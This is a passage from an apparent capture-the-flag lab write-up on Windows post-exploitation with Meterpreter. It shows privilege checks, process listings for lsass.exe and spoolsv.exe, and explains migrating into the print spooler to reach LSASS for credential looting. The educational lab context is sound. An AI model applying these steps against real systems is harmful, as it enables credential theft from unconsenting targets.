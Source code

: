 ### We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?
`SeTakeOwnershipPrivilege`

---

## 5. Looting

```
Local Security Authority Subsystem Service (LSASS) is a process in Microsoft Windows operating systems that is responsible for enforcing the security policy on the system. It verifies users logging on to a Windows computer or server, handles password changes, and creates access tokens.
```

```
What is spoolsv.exe? Spoolsv.exe is an executable file that runs the Print Spooler Service, a process that caches printing jobs into system memory as images as printers cannot understand fonts or decipher graphics.
```

### Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows. First, let's list the processes using the command `ps`. Note, we can see processes being run by NT AUTHORITY\SYSTEM as we have escalated permissions (even though our process doesn't). 
```
meterpreter > ps | grep lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 700  592   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe
```


### In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service? Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell. 
```
meterpreter > ps | grep spoolsv
Filtering on 'spoolsv'

Process List
============

 PID   PPID  Name         Arch  Session  User                 Path
 ---   ----  ----         ----  -------  ----                 ----
 1360  692   spoolsv.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\spoolsv.exe
```
`spoolsv.exe`
